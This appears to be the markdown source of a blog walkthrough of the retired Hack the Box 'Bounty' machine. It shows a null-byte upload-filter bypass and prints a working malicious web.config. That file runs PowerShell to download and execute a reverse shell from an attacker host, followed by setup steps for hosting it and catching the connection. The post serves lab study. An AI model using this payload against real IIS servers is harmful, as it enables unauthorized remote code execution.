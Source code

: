 ```yaml
---
layout: post
title:  "Using web.config to Bypass File Upload Restrictions"
author: nanobyte
date:   2021-09-13
description: How to leverage web.config for bypassing a file upload restriction
tags: PowerShell HTB_Walkthrough BypassUploadRestriction
---
```


<h2>Bypassing Upload Restrictions</h2>

The following attack was identified during Hack the Box's retired Bounty machine. In that vulnerable machine, there was access to a file upload. The goal was to achieve remote code execution from the file upload functionality. The application only took JPG extensions, all other file extensions were blocked. This restriction could be defeated by adding a null byte and the JPG extension at the end of a malicious filename.

TO begin the attack, first use Burp Suite and enable intercept. Once ready, upload a file, in this scenario Kali Linux's cmdasp.aspx is being uploaded:

<center><img src="/images/posts/webconfig-writeup/image_1.png" alt="upload-file"></center>

Once intercepted, we can add our null byte after our ASPX extension, and then the required JPG extension:

<center><img src="/images/posts/webconfig-writeup/image_2.png" alt="burp-suite-intercept"></center>

If we were to send this to the server, we will see a successful file upload:

<center><img src="/images/posts/webconfig-writeup/image-3.png" alt="file-upload-success"></center>

However, if we navigate to this file, we would receive the following error:

<center><img src="/images/posts/webconfig-writeup/image-4.png" alt="file-load-error"></center>

With the presence of web.config present, and the ability to bypass file upload restrictions discovered, we can create a malicious web.config, and upload a version that is useful to us, as attackers.

<h2>Malicious web.config</h2>

We can create our own malicious web.config file, which contains a PowerShell command to download a reverse shell hosted on a web server:

{% highlight bash linenos %}
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />       
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.2/reverse.ps1')")
%>
{% endhighlight %}

Before you upload this file to the server, make sure that you host a PowerShell reverse shell hosted on your local machine. Here are some great PowerShell options available from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell" target="_blank">PayloadAllTheThings</a>.

Once a PowerShell reverse shell is saved on your local machine, you must setup a web server to host this file. I generally usen a Python SimpleHTTPServer. This can be quickly setup with the following command, from the directory your reverse shell is saved in:

{% highlight bash linenos %}
python -m SimpleHTTPServer 80
{% endhighlight %}

Once the above is setup and ready to go, you can then upload the malicious web.config file. You must perform the same bypass restriction, adding the required null byte and JPG extension. Once on the server, open a NetCat listener, and open the web.config file on the web server. Completing the above, a reverse connection was received:

<center><img src="/images/posts/webconfig-writeup/image-5.png" alt="burp-suite-intercept"></center>
